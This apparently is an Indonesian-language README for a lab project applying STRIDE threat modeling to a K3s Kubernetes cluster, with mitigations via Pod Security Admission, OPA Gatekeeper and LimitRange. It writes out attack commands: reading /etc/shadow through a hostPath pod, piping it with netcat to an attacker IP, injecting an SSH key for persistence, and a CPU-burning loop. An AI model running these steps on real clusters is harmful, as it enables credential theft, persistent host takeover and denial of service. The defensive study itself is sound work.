


# Analisis Threat Modeling STRIDE pada Infrastruktur Kubernetes

Repositori ini berisi hasil analisis dan simulasi keamanan pada cluster Kubernetes (K3s) menggunakan metodologi **STRIDE** (*Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege*)[cite: 1]. Penelitian ini berfokus pada dua skenario serangan utama—**HostPath Attack** dan **CPU Resource Exhaustion**—serta langkah-langkah mitigasinya[cite: 1].

---

## Arsitektur Target & Aset Kritis

### 1. Spesifikasi Cluster K3s
* **Control Plane**: Ubuntu Server (`ubuntu`, Ready, `v1.35.5+k3s1`)[cite: 1]
* **Worker Node**: Kali Linux (`kali`, Ready, `v1.35.5+k3s1`)[cite: 1]
* **Aplikasi Target**: OWASP Juice Shop (diakses via NodePort `http://100.96.138.59:31423`)[cite: 1]

### 2. Aset yang Dilindungi
* File kredensial sistem host (`/etc/shadow`, `/etc/passwd`)[cite: 1]
* Akses remote SSH (`~/.ssh/authorized_keys`)[cite: 1]
* Sumber daya komputasi node (CPU & Memori)[cite: 1]
* Layanan web OWASP Juice Shop[cite: 1]
* Catatan aktivitas sistem (*System & Audit Logs*)[cite: 1]

---

## Skenario 1: HostPath Attack
Ancaman: *Information Disclosure*, *Tampering*, dan *Elevation of Privilege*[cite: 1]

Pada skenario ini, pod jahat (`skenariol`) dikonfigurasi di namespace `security-audit-lab` menggunakan volume `hostPath` yang mengarah langsung ke direktori sensitif host (`/etc`, `/var`, `/home`)[cite: 1].

### Alur Serangan (Data Flow Diagram)

  Assets/langkah1.png

  <b>Penjelasan DFD:</b> Diagram Alur Data (DFD) menunjukkan alur di mana penyerang mendeploy pod jahat dengan mount direktori host, membaca file kredensial <code>/etc/shadow</code>, mengeksfiltrasi data via Netcat ke Kali Linux, menyisipkan public key SSH ke dalam <code>authorized_keys</code> milik user <code>ubuntu</code>, hingga memperoleh akses persisten langsung ke sistem host via SSH.

### Tahapan Akses & Eksfiltrasi Data

  
  

  <b>Penjelasan gambar diatas:</b> Pembuatan namespace <code>security-audit-lab</code> dan penyiapan manifes pod <code>skenariol</code> berbasis <code>alpine:latest</code> dengan mount point <code>hostPath</code> yang mengarahkan <code>/etc</code> ke <code>/mnt/host-etc</code>, <code>/var</code> ke <code>/mnt/host-var</code>, dan <code>/home</code> ke <code>/mnt/host-home</code>.

  

  <b>Penjelasan gambar diatas:</b> Penyerang mengeksekusi shell ke dalam pod menggunakan <code>kubectl exec -it skenariol -n security-audit-lab sh</code> dan mengakses isi file <code>/mnt/host-etc/shadow</code> untuk mengintip hash password akun sistem host.

*Penjelasan gambar diatas:* Penyerang membuka listener jaringan dengan perintah `nc -tvnp 4444` pada mesin Kali Linux (`100.65.32.116`) untuk mendengarkan koneksi data masuk dari pod[cite: 1].

*Penjelasan gambar diatas:* Dari dalam pod di Ubuntu Server, penyerang mengirimkan data sensitif menggunakan perintah `cat /mnt/host-etc/shadow | nc 100.65.32.116 4444`, sehingga hash password sistem host berhasil dieksfiltrasi ke mesin penyerang[cite: 1].

### Tahapan Injeksi Kunci SSH & Akses Persisten

*Penjelasan gambar diatas:* Penyerang membuat sepasang SSH key baru (`exploit_key` & `exploit_key.pub`) menggunakan `ssh-keygen -t rsa -b 4096` di mesin Kali Linux serta mengecek IP Tailscale target (`100.96.138.59`)[cite: 1].

*Penjelasan gambar diatas:* Melalui shell pod, penyerang membuat direktori `/mnt/host-home/ubuntu/.ssh/` dan menginjeksikan isi public key (`exploit_key.pub`) ke file `authorized_keys` dengan hak akses `600`[cite: 1].

*Penjelasan gambar diatas:* Penyerang berhasil melakukan login remote SSH langsung ke mesin host Ubuntu menggunakan `ssh -i ~/.ssh/exploit_key ubuntu@100.96.138.59` tanpa memerlukan password[cite: 1].

*Penjelasan gambar diatas:* Administrator/Penyerang menghapus namespace `security-audit-lab` (`sudo kubectl delete ns security-audit-lab`) untuk mencoba menghentikan eksploitasi dan membersihkan Pod[cite: 1].

*Penjelasan gambar diatas:* Meskipun pod dan namespace di Kubernetes telah dihapus seluruhnya, penyerang terbukti masih bisa login kembali via SSH ke host Ubuntu, membuktikan tercapainya akses persisten (*Elevation of Privilege & Persistence*)[cite: 1].

---

## Skenario 2: CPU Resource Exhaustion Attack
Ancaman: *Denial of Service* (DoS) dan *Repudiation*[cite: 1]

Skenario ini mensimulasikan pod jahat (`attacker-pod` / `cpu-killer`) di namespace `dos-lab` yang mengonsumsi seluruh daya komputasi CPU pada node karena tidak dibatasi oleh *resource limits*[cite: 1].

### Alur Serangan (Data Flow Diagram)

*Penjelasan gambar diatas:* DFD menggambarkan alur serangan DoS. Pod jahat mengeksekusi skrip pembakar CPU yang memicu lonjakan pemakaian CPU hingga 90%, berakibat pada pembengkakan waktu respon aplikasi OWASP Juice Shop, serta mengeksploitasi celah *Repudiation* akibat tidak adanya pencatatan audit log[cite: 1].

### Tahapan Serangan DoS

*Penjelasan gambar diatas:* File `attacker-pod.yaml` berisi konfigurasi pod dengan perintah shell infinite loop (`for i in 1 2 3 4; do (while true; do yes > /dev/null; done) & done;`) tanpa menyertakan batasan `resources.limits`[cite: 1].

*Penjelasan gambar diatas:* Eksekusi perintah `sudo kubectl apply -f cpu-burner.yaml` untuk mendeploy pod pembakar CPU ke namespace `dos-lab`[cite: 1].

*Penjelasan gambar diatas:* Hasil perintah `kubectl top nodes` sebelum serangan menunjukkan konsumsi CPU pada node `ubuntu` dalam kondisi normal di kisaran 2% (`49m`)[cite: 1].

*Penjelasan gambar diatas:* Setelah pod berjalan, konsumsi CPU Control Plane (`ubuntu`) melonjak drastis hingga 90% (`1802m`)[cite: 1].

*Penjelasan gambar diatas:* Pengujian dengan `time curl -o /dev/null -s http://100.96.138.59:31423` menunjukkan bahwa website aplikasi OWASP Juice Shop mengalami degradasi berat dengan respon time membengkak hingga **139.28 detik**[cite: 1].

### Investigasi Repudiation (Ancaman Akuntabilitas)

*Penjelasan gambar diatas:* Pemeriksaan `kubectl get pod attacker-pod -o yaml | grep serviceAccount` menunjukkan pod berjalan menggunakan `serviceAccount: default`, sehingga identitas spesifik pembuat tidak diketahui[cite: 1].

*Penjelasan gambar diatas:* Perintah `kubectl get pod attacker-pod --show-labels` menampilkan `LABELS <none>`, membuktikan tidak adanya metadata pelacak seperti `created-by`[cite: 1].

*Penjelasan gambar diatas:* Pemeriksaan log K3s via `sudo journalctl -u k3s | grep "attacker-pod"` tidak menghasilkan catatan pembuat `kubectl apply`, mengonfirmasi bahwa audit logging dalam kondisi non-aktif[cite: 1].

---

## Implementasi Mitigasi

### 1. Pod Security Admission (PSA)
PSA digunakan untuk menegakkan standar keamanan pod bawaan Kubernetes pada tingkat namespace[cite: 1].

*Penjelasan gambar diatas:* Menerapkan label `pod-security.kubernetes.io/enforce=baseline` pada namespace target (`security-audit-lab-example`)[cite: 1].

*Penjelasan gambar diatas:* Menjalankan `kubectl get ns --show-labels` untuk memastikan namespace target telah memiliki label kebijakan penegakan `baseline`[cite: 1].

*Penjelasan gambar diatas:* Saat pod `skenariol` yang menggunakan volume `hostPath` dideploy, PSA secara otomatis menolak (*Forbidden*) pembuatan pod karena melanggar aturan keamanan baseline[cite: 1].

### 2. Open Policy Agent (OPA) Gatekeeper
Gatekeeper memberikan kontrol *Policy as Code* berbasis bahasa Rego untuk memblokir penggunaan `hostPath` secara kustom[cite: 1].

*Penjelasan gambar diatas:* Verifikasi keberhasilan instalasi OPA Gatekeeper di namespace `gatekeeper-system` dengan status pod `audit` dan `controller-manager` berjalan `Running`[cite: 1].

*Penjelasan gambar diatas:* Pembuatan file `template-hostpath.yaml` yang berisi aturan logika Rego `K8sBanHostPath` untuk mendeteksi keberadaan `volume.hostPath`[cite: 1].

*Penjelasan gambar diatas:* Menerapkan file `template-hostpath.yaml` menggunakan `kubectl apply -f template-hostpath.yaml` hingga objek `constrainttemplate` berhasil dibuat[cite: 1].

*Penjelasan gambar diatas:* Pembuatan file `constraint-hostpath.yaml` jenis `K8sBanHostPath` bernama `no-hostpath-volumes` yang menyasar objek `Pod`, `Deployment`, `DaemonSet`, dan `StatefulSet` (mengecualikan `kube-system` dan `gatekeeper-system`)[cite: 1].

*Penjelasan gambar diatas:* Menerapkan aturan constraint ke cluster menggunakan `kubectl apply -f constraint-hostpath.yaml`[cite: 1].

*Penjelasan gambar diatas:* Melakukan pengujian ulang dengan mengirimkan periferal manifes pod yang mengandung volume `hostPath` (`/etc`, `/var`, `/home`)[cite: 1].

*Penjelasan gambar diatas:* Admission Webhook Gatekeeper (`validation.gatekeeper.sh`) berhasil mencegat dan menolak pembuatan pod secara langsung karena melanggar aturan `no-hostpath-volumes`[cite: 1].

### 3. LimitRange (Mitigasi CPU Exhaustion)
LimitRange membatasi penggunaan konsumsi sumber daya CPU dan memori per kontainer secara otomatis pada suatu namespace[cite: 1].

*Penjelasan gambar diatas:* Pembuatan konfigurasi `LimitRange` (`dos-lab-limit`) pada namespace `dos-lab` yang menetapkan default limit CPU `500m`, memori `256Mi`, serta batas maksimal CPU `1 Core`[cite: 1].

*Penjelasan gambar diatas:* Tampilan `kubectl describe pod` yang mengonfirmasi adanya anotasi `kubernetes.io/Limit-ranger` di mana plugin LimitRange secara otomatis menyuntikkan batasan CPU `500m` dan Memory `256Mi` pada pod jahat[cite: 1].

*Penjelasan gambar diatas:* Setelah mitigasi diterapkan, konsumsi CPU node Control Plane (`ubuntu`) berhasil diturunkan drastis dari 90% menjadi **16% (`338m`)**, sehingga ketersediaan cluster dan layanan web tetap terjaga[cite: 1].

---

## Matriks Risiko (STRIDE)

| Kategori STRIDE | Ancaman yang Ditemukan | Skenario | Tingkat Keparahan (*Severity*) |
|---|---|---|---|
| **Spoofing** | Penyerang menyamar sebagai user `ubuntu` via SSH Key yang disisipkan | Skenario 1 | Low |
| **Tampering** | Modifikasi file host (`authorized_keys`) via mount point `hostPath` | Skenario 1 | High |
| **Repudiation** | Pelaku tidak teridentifikasi karena ServiceAccount default, tanpa label, dan audit log mati | Skenario 2 | Medium |
| **Information Disclosure** | Membaca & mengeksfiltrasi isi file sensitif `/etc/shadow` ke mesin penyerang | Skenario 1 | High |
| **Denial of Service** | Lonjakan CPU hingga 90% memicu kelumpuhan & kelemotan layanan OWASP Juice Shop | Skenario 2 | High |
| **Elevation of Privilege** | Memperoleh shell SSH persisten ke sistem host eksternal meski Pod dihapus | Skenario 1 | Critical |

---

## Kesimpulan Mitigasi
1. **PSA Baseline**: Efektif menolak pembuatan pod yang menggunakan volume `hostPath` sebelum kontainer sempat dijalankan[cite: 1].
2. **OPA Gatekeeper**: Memberikan kontrol kebijakan kustom (*Policy as Code*) berbasis Rego yang presisi untuk mencegah akses tidak sah ke direktori sistem host[cite: 1].
3. **LimitRange**: Efektif menstabilkan penggunaan CPU dari 90% kembali ke 16%, membatasi potensi *Resource Exhaustion* serta menjamin ketersediaan (*Availability*) layanan cluster[cite: 1].
